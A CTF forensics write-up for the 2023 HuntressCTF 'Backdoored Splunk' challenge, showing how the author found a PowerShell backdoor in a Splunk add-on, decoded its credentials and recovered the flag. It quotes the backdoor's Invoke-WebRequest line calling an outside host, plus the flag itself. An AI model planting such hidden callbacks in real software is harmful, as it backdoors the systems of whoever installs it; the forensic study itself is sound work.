 ```yaml
---
title: 2023 HuntressCTF - Backdoored Splunk
date: 2023-10-06T15:04:11-06:00
tags:
  - forensics
image: /2023-HuntressCTF/bs.png
---
```


### Summary
```
Author: Adam Rice  
  
You've probably seen Splunk being used for good, but have you seen it used for evil?  
  
**NOTE: the focus of this challenge should be on the downloadable file below. It uses the dynamic service that is started, but you must put the puzzle pieces together to be retrieve the flag. The connection error to the container is part of the challenge.**  
  
**Download the file(s) below and press the `Start` button on the top-right to begin this challenge.**
```

### Steps

I started the container for the challenge and downloaded ```Splunk_TA_windows.zip``` and unzipped the files in kali.  

![](//2023-HuntressCTF/bsfiles.png)


I decided to start in the bin folder and started to enumerate the various python and PowerShell files. After a few minutes I discovered ```nt6-health.ps1``` in the ```/bin/powershell/``` folder.   Near the middle of the PowerShell script there was an ```Invoke-Webrequest``` command connecting out to ```http://chal.ctf.games:$PORT``` using an authorization header that is base64 encoded. 
```powershell
$OS = @($html = (Invoke-WebRequest http://chal.ctf.games:$PORT -Headers @{Authorization=("Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg==")} -UseBasicParsing).Content
```

Decoding the base64 string I discovered the username and password of ```backdoor:use_this_to_authenticate_with_the_deployed_http_server``` so I knew I was on the right track.   

Next started a pwsh session and setup the PowerShell request using the provided  information. Note: the domain and port were provided when starting the container at the start of the challenge. 

```powershell
$headers = @{Authorization="Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg=="}
$uri = "http://chal.ctf.games:32367" 
$response = Invoke-WebRequest -uri $uri -Headers $headers
```

After sending the above PowerShell commands, I executed ```$response``` and found the content was base64 encoded. 

![](/2023-HuntressCTF/bsresponse.png)

Continuing to use PowerShell, I base64 decoded the string and discovered the flag!
```powershell
[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String('ZWNobyBmbGFnezYwYmIzYmZhZjcwM2UwZmEzNjczMGFiNzBlMTE1YmQ3fQ=='))
echo flag{60bb3bfaf703e0fa36730ab70e115bd7}
```

![](/2023-HuntressCTF/bsflag.png)
